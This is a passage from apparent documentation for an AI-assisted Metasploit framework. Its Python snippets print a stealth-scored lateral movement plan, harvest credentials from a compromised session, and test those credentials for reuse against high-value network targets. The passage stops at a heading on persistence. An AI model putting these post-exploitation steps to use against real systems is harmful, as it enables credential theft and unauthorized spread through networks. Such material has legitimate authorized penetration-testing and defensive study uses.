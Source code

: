 ```python
for step in movement_plan['steps']:
    print(f"\nStep {step['order']}: {step['description']}")
    print(f"  Target: {step['target_host']}")
    print(f"  Method: {step['movement_method']}")
    print(f"  Credentials: {step['credential_source']}")
    print(f"  Success Rate: {step['success_rate']:.2f}")
    print(f"  Stealth Score: {step['stealth_score']:.2f}")
```

### Credential Harvesting and Reuse

Implement intelligent credential harvesting and reuse strategies.

```python
# Advanced credential operations
from metasploit_ai.credentials import CredentialHarvester
from metasploit_ai.ai import CredentialAnalyzer

harvester = CredentialHarvester()
cred_analyzer = CredentialAnalyzer()

# Harvest credentials from compromised system
credentials = harvester.harvest_credentials(session_id)

print("Harvested Credentials:")
for cred_type, creds in credentials.items():
    print(f"\n{cred_type.upper()}:")
    for cred in creds:
        # Analyze credential value
        analysis = cred_analyzer.analyze_credential(cred)
        
        print(f"  {cred['username']}:{cred['password_hash']}")
        print(f"    Reuse Probability: {analysis['reuse_probability']:.2f}")
        print(f"    Privilege Level: {analysis['privilege_level']}")
        print(f"    Domain Scope: {analysis['domain_scope']}")

# Test credential reuse across network
reuse_results = harvester.test_credential_reuse(
    credentials=credentials,
    targets=network_map['high_value_targets']
)

print("\nCredential Reuse Results:")
for result in reuse_results['successful']:
    print(f"  {result['target']}: {result['username']} (Service: {result['service']})")
```

## Persistence Mechanisms

### AI-Selected Persistence Methods
